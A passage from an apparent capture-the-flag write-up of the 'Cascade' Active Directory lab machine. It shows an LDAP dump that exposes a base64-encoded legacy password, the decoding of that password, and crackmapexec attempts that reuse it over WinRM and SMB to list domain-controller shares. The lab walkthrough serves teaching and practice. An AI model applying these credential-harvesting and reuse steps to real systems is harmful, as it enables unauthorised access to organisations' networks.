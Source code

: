     objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
    accountExpires: 9223372036854775807
    logonCount: 2
    sAMAccountName: r.thompson
    sAMAccountType: 805306368
    userPrincipalName: r.thompson@cascade.local
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
    dSCorePropagationData: 20200126183918.0Z
    dSCorePropagationData: 20200119174753.0Z
    dSCorePropagationData: 20200119174719.0Z
    dSCorePropagationData: 20200119174508.0Z
    dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 132294360317419816
    msDS-SupportedEncryptionTypes: 0
    cascadeLegacyPwd: clk0bjVldmE=



I can decode the value to `rY4n5eva`:



    root@kali# echo clk0bjVldmE= | base64 -d
    rY4n5eva



## Shell as s.smith

### Revisiting SMB

I tried connecting over WinRM, but didn't succeed.



    root@kali# crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [-] CASCADE\r.thompson:rY4n5eva "Failed to authenticate the user r.thompson with ntlm"



Back to SMB.

#### Validate Creds

With the password collected from LDAP, more shares are visible:



    root@kali# crackmapexec smb -u r.thompson -p rY4n5eva --shares 10.10.10.182
    SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:CASCADE) (signing:True) (SMBv1:False)
    SMB         10.10.10.182    445    CASC-DC1         [+] CASCADE\r.thompson:rY4n5eva 
    SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
    SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
    SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
    SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
    SMB         10.10.10.182    445    CASC-DC1         Audit$                          
    SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
    SMB         10.10.10.182    445    CASC-DC1         Data            READ            
    SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
    SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
    SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
    SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
